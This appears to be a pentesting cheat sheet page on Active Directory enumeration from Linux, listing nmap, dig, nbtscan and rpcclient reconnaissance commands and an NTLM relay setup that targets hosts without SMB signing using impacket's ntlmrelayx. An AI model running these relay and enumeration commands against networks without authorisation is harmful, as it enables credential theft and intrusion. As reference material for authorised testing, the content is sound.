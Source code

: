 ```yaml
---
layout: post
title: TA0007 Discovery - AD Enumeration with Linux System
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2021-12-10
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [ENUM: DOMAIN AND IP PLAN](#ENUM:DOMAINANDIPPLAN)
* [RELAY/POISON](#RELAYPOISON)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='ENUM:DOMAINANDIPPLAN'></a>ENUM: DOMAIN AND IP PLAN

```sh
# OBJECTIVE 1: Identify the DHCP server 
nmap --script broadcast-dhcp-discover
sudo tcpdump -ni eth0 udp port 67 and port 68

dig -t SRV _gc._tcp.contoso.com
dig -t SRV _ldap._tcp.contoso.com
dig -t SRV _kerberos._tcp.contoso.com
dig -t SRV _kpasswd._tcp.contoso.com

nmap --script dns-srv-enum --script-args "dns-srv-enum.domain='contoso.com'"

nbtscan -r 10.0.0.0/24

# OBJECTIVE 1: Enum domains and trusts with authenticated user - DC IP address 
rpcclient -U "johndoe" 10.1.1.1
rpcclient> enumdomains
rpcclient> enumtrusts
# Copy the output to trusts.txt

# OBJECTIVE 2: GET THE IP SUBNETTING / IP PLAN
# 2A DNS resolutions
cut -f1 -d" " trusts.txt > trusts_clean.txt                                                        │
for i in `cat trusts_clean.txt`; do ping -a $i; done                                               │

```
## <a name='RELAYPOISON'></a>RELAY/POISON

## <a name='RELAYPOISON'></a>SMBv2 SIGNING NOT REQUIRED
```sh
# STEP 1: find smb not signed
nmap -p 445 --script smb2-security-mode 10.0.0.0/24 -o output.txt

# STEP 2: set up impacket/ntlmrelayx
grep -B 9 "not required" output.txt |sed -E '/.*\((.*\..*\..*\..*)\)$/!d' |sed -E 's/.*\((.*\..*\..*\..*)\)$/\1/' > targets.txt
python3 ntlmrelayx.py -tf targets.txt -smb2support

```

## <a name='RELAYPOISON'></a>CRACKING HASHES
```sh
# Get the domain pasword policy
rpcclient -U "johndoe" 10.1.1.1
rpcclient> getdompwinfo
```